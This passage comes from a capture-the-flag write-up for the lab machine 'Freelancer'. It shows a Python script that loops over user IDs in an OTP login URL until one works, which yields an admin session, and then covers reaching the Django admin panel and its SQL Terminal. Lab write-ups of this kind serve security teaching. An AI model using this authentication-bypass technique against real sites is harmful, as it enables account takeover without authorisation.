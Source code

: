 ```python
COOKIES = {'csrftoken': 'XXUrCUyu8rA265jIDgGwsZwCRxjwtqoc',
           'sessionid': 'ddtmxpq9ny4jcxnd5dcxhhmpbrpqddqv'}

def fuzz(limit):
    for i in range(limit):
        token = get_auth_token()
        login_url = Routes.LOGIN(i, token)
        resp = requests.get(login_url)
        print(f'[{i}] {resp.text[:100]} | {login_url}')
        if 'Invalid' not in resp.text:
            return i

valid_id = fuzz(5)
token = get_auth_token()
print("\nURL: ", Routes.LOGIN(valid_id, token))

'''
└─$ py auth.py
[0] Invalid user primary key! | http://freelancer.htb/accounts/login/otp/MA==/813abb36583bd35efc8586949f809fb8/
[1] Invalid user primary key! | http://freelancer.htb/accounts/login/otp/MQ==/b024660ab9ead2e768d496bde357209d/
[2] <!doctype html>
<html lang="zxx">

<head>
    <!-- Required meta tags -->
    <meta charset="utf-8"> | http://freelancer.htb/accounts/login/otp/Mg==/8af5b89c31c2365bccdeaa73748f4f49/

URL: http://freelancer.htb/accounts/login/otp/Mg==/2cc9ecb54d408a8a2e239a1ed34da920/
'''
```

Using OTP we are able to login as admin (id=2)

### Admin Account Via OTP

![Writeup-6.png](/assets/images/Season 5/Freelancer/Writeup-6.png)

Since the app is built with Django we have `/admin` panel

![Writeup-7.png](/assets/images/Season 5/Freelancer/Writeup-7.png)

### Django Admin Panel

![Writeup-8.png](/assets/images/Season 5/Freelancer/Writeup-8.png)

Application has `SQL Terminal` we can play around

![Writeup-9.png](/assets/images/Season 5/Freelancer/Writeup-9.png)
